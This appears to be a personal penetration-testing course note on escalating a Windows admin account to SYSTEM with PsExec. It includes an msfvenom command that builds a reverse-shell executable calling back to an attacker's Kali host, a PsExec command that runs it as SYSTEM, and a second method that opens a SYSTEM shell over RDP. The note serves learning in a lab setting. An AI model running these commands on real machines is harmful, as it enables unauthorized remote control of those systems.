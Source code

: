 ```yaml
---
category: Uncategorized
tags: []
---
```

To escalate from an admin user to full SYSTEM privileges, you can use the PsExec tool from Windows Sysinternals.

[https://docs.microsoft.com/en-us/sysinternals/downloads/psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

A copy is included in the course tools ZIP archive.

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe -o reverse.exe
```

```powershell - target
.\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[4._File Transfers]]

#### RDP
RDP'd in and then just ran the command prompt as Administrator, followed by:

```command prompt - target
powershell
```

```powershell - target
.\PsExec64.exe -i -s cmd.exe
```
